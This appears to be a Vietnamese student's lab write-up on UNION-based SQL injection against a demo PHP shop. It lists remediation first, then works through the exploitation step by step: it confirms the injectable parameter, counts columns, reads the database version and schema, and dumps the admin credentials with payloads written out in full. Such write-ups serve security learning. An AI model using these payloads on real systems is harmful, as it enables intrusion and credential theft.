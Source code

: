 # Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


Đây là giao diện khi em vào trong trang chính

![Alt text](./imagesUnionBase/image.png)

Khi em click vào chọn mục products thì sẽ lấy 1 param name và sau đó hiện ra sản phẩm
![Alt text](./imagesUnionBase/image-1.png)

* Nhận định đầu tiên có vẻ như là khi mình click vào chọn products thì sẽ lấy tên này truyền vào trong truy vấn và map ra sản phẩm nên em thử với payload:  --

![Alt text](./imagesUnionBase/image-2.png)
Xác định được điểm có thể bị tấn công SQL injection nên em sẽ vào tấn công bên trong burp

Đây là điểm em sẽ tấn công :<
![Alt text](./imagesUnionBase/image-3.png)

![Alt text](./imagesUnionBase/image-4.png)
Vì ở đây em chèn không cần dấu phẩy trên để đóng tên kiểu : '--
Nên là có vẻ như là câu lệnh sẽ chèn trực tiếp vào
và dòng code đó như sau :

![Alt text](./imagesUnionBase/image-5.png)
Câu truy vấn bị injection đó là : 
                                         $name = $_GET['name'];
                                         $sql = "SELECT * FROM $name";

+ Nên sau khi em sử dụng payload : -- thì câu truy vấn sẽ trở thành  $sql = "SELECT * FROM products--"; Và nó vẫn hoạt động bình thường

+ Bị động một chút là em thấy sản phẩm có 5 mục được gen ra cho nên cộng thêm cột id không trả ra nữa em có thể đoán được số cột trả ra là >=6
- nên em dùng payload 'union select NULL, NULL, NULL, NULL, NULL, NULL--'
![Alt text](./imagesUnionBase/image-6.png)
+ Lúc này em nhận được thêm 1 item RỖNG
![Alt text](./imagesUnionBase/image-7.png)
Vậy là em có thể xác nhận được là bảng products có 6 cột trong đó

- Vì vậy cho nên em sẽ chọn lệnh union select để lấy thêm dữ liệu
+ Đầu tiên em sẽ lấy ra phiên bản version của database với payload '+UNION+SELECT+NULL,@@version,NULL,NULL,NULL,NULL--'
+ Em nhận được phiên bản là 8.0.30
![Alt text](./imagesUnionBase/image-8.png)
![Alt text](./imagesUnionBase/image-9.png)

+ Sau đó em dùng payload  "+UNION+SELECT+NULL,table_name,NULL,NULL,NULL,NULL+FROM+information_schema.tables--"
Sau đó em được rất nhiều bảng
![Alt text](./imagesUnionBase/image-10.png)

và có một bảng users
![Alt text](./imagesUnionBase/image-11.png)
<Vì html hơi dài nên em để ảnh cho dễ nhìn ạ chứ trong burp dài quá chụp không xuể ạ:v>

+ Sau đó em tiến hành xác định tên của cột có trong table_users với payload  
"+UNION+SELECT+NULL,column_name,NULL,NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_name='users'--"
![Alt text](./imagesUnionBase/image-12.png)
![Alt text](./imagesUnionBase/image-13.png)
+ Ta có thể thấy có 3 trường quan trọng là username, password và role
+ Mục đích của em là lấy được username và password của admin nên em sẽ sử dụng payload
"+UNION+SELECT+NULL,concat(username, '--->', password),NULL,NULL,NULL,NULL+FROM users--"
![Alt text](./imagesUnionBase/image-14.png)
Và em nhận được username là : administrator và password là hihi123
Vậy là em đã dumb thành công tài khoản mật khẩu của admin và từ đó có thể khai thác sau hơn với role admin.

Ngoài ra dạng này có có vài kiểu là nhà sản xuất sẽ có kiểu sản phần chưa phát hành nữa nên hay để RELEASE= 0 vì vậy mình có để chèn RELEASE= 1-- và như vậy mình có thể thấy được sản phầm chưa phát hành.